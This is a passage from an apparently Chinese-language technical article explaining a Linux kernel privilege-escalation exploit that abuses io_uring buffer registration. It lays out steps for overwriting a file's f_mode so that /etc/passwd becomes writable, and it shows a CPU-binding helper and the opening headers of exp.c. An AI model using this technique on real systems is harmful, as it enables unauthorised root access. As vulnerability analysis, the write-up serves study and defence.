 ```
    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
    BLUE;printf("[*] bind_cpu(%d)",core);CLOSE;
}

```  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GYDWOic1Dndw1vDJbr1UzpCOribU9Jd9ADlVbYp8XpdqcviakSnmuDzKiaovv3dw1aoEJMaFw5j1Xiauw/640?wx_fmt=png&from=appmsg "")  
  
  
  
**07**  
  
  
  
**作者脏牛EXP**  
  
  
本质就是篡改filp->f_mode为可写，然后篡改/etc/passwd。  
  
  
〔1〕 初始化：绑定CPU，注册io_uring，设置最大可打开文件数 (把rlim_cur设置为rlim_max)，nr_memfds—— 映射漏洞物理页的文件最大打开数量。nr_files最大打开file数量。  
  
  
〔2〕 创建receiver_fd，映射receiver_buffer内存（mmap()），用于存放数据（越界读取的数据和伪造的数据）；  
  
  
〔3〕 打开nr_files个/etc/passwd,因为通过O_RDONLY标识符打开，f_mode固定为0x484a801d。  
  
![image-20250307133537502](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GYDWOic1Dndw1vDJbr1UzpCxyrib9Fiby8SVtJsvBTib4fBgA5dsNrGIiahS6mrBia57L1yK7csCylxJgw/640?wx_fmt=png&from=appmsg "")  
  
  
〔4〕 接着为文件映射**虚拟内存**，在固定地址处映射 65000 个连续的虚拟页（绑定该匿名文件），但是对应的物理页只有1个；并向io_uring注册该缓冲区。  
  
  
nr_pages来源于用户设置的iov.len/page_size  
  
  
![image-20250307133033061](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GYDWOic1Dndw1vDJbr1UzpCeAjJw4LEcKdLGnsHomkvvxnYicibraUzUkByaibXC4ux9mfH2YpfHXW5w/640?wx_fmt=png&from=appmsg "")  
  
  
pages里面就只有一个地址，所以很容易就绕过了之前说的判断  
  
  
![image-20250307133129453](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GYDWOic1Dndw1vDJbr1UzpCb6yGibicH7glh5hMkCKn8phbWwssXgbJnrzRjolChSSrqicriaFic6jKrKQ/640?wx_fmt=png&from=appmsg "")  
  
  
〔5〕 通过固定的f_flags+f_mode == 0x484a801d00008000定位到文件处，修改f_mode。  
  
  
![image-20250307133537502](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GYDWOic1Dndw1vDJbr1UzpCxyrib9Fiby8SVtJsvBTib4fBgA5dsNrGIiahS6mrBia57L1yK7csCylxJgw/640?wx_fmt=png&from=appmsg "")  
  
  
〔6〕因为无法知道文件描述符，所以暴力对所有/etc/passwd进行写操作，通过返回值判断是否写入成功，但是实测非常稳定，只要有这个漏洞就能提权。  
  
  
```
/* gcc exp.c -static -l:liburing.a -o ./exp */
#define _GNU_SOURCE 
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <liburing.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
#include <mqueue.h>

#include <sys/syscall.h>
#include <sys/resource.h>
```